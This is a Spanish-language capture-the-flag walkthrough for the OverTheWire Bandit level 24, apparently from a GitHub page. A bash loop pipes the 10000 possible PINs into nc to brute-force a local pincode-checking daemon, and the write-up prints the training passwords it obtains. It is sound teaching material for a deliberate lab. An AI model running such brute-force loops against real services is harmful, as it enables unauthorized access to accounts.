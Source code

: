 **Bandit **

**Objetivo**
Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le proporciona la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN, excepto pasando por todas las 10000 combinaciones, lo que se conoce como fuerza bruta.

**Datos de acceso**
server: **bandit.labs.overthewire.org** 
usuario: **bandit24**
contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
**Solucion**
```bash
bandit24@bandit:~$ nc localhost 300002
nc: port number too large: 300002
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 6666Timeout. Exiting.

bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar {0000..0005}
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.

^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
**Notas adicionales** 

**Referencias** 